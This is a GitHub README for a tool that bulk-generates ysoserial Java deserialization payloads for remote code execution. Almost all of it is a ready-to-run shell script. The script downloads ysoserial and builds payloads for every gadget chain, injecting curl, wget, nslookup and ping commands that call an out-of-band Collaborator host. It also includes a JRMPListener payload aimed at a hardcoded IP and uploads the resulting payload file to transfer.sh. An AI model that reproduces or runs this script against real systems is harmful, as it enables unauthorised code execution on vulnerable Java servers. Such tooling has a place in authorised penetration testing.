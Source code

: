 # java-insecure-deserialization
<p align="center">
  <img width="460" height="300" src="https://github.com/nowak0x01/java-insecure-deserialization/assets/96009982/aaa3a093-5026-4250-8232-f23cab3b10a8">
</p>
This script automatically generates all payloads available in Ysoserial https://github.com/frohoff/ysoserial that lead to Remote code execution (RCE), using Out of Band techniques

Note: Payloads that could not be automated. <i>AspectJWeaver, FileUpload1, JSON1, Jython1</i> and <i>Wicket1</i>
```C
sudo docker run --rm adoptopenjdk/openjdk11 /bin/bash -c '

Collaborator="hufzwo32omf8ss00d9dyayy18sej29qy.oastify.com"
IP="54.77.139.23" # for JRMPListener payload
Encoding="base64 -w0"

export TERM="xterm"
clear
printf "\n\e[1;37m[#]\e[0m Downloading latest ysoserial release \e[1;37m[#]\e[0m\n\n"
curl -LkO https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar && printf "\n\e[1;37m[#]\e[0m Download Completed! \e[1;37m[#]\e[0m\n"
java -jar ysoserial-all.jar >& out
printf "\n\e[1;37m[#]\e[0m Building Payloads (slow) \e[1;37m[#]\e[0m\n"
java -jar ysoserial-all.jar URLDNS "https://URLDNS.$Collaborator/" 2>&- | $Encoding >> payloads.inc
java -jar ysoserial-all.jar C3P0 "https://$Collaborator/:C3P0" 2>&- | $Encoding >> payloads.inc
printf "\n" >> payloads.inc
java -jar ysoserial-all.jar Myfaces2 "https://$Collaborator/:Myfaces2" 2>&- | $Encoding >> payloads.inc
printf "\n" >> payloads.inc
[ "$IP" != "" ] && java -jar ysoserial-all.jar JRMPListener "$IP" 2>&- | $Encoding >> payloads.inc
for _payload in $(cat out | awk "{print \$1}" | grep -vE "^Y$|Usage:|Available|Sep|INFO:|Payload|-------");do
    java -jar ysoserial-all.jar $_payload "curl curl_$_payload.$Collaborator" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
    java -jar ysoserial-all.jar $_payload "nslookup nslookup_$_payload.$Collaborator" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
    java -jar ysoserial-all.jar $_payload "wget wget_$_payload.$Collaborator" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
    java -jar ysoserial-all.jar $_payload "ping ping_$_payload.$Collaborator" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
done
file=$(tr -dc 'A-Z0-9' </dev/urandom | head -c 20)
sort -u payloads.inc > $file
printf "\n\n\e[1;37m[+] The payloads have been uploaded [+]\n"
printf "U can download the file through that link: "; curl -Lsk --upload-file $PWD/$file https://transfer.sh/$file
echo
'
```
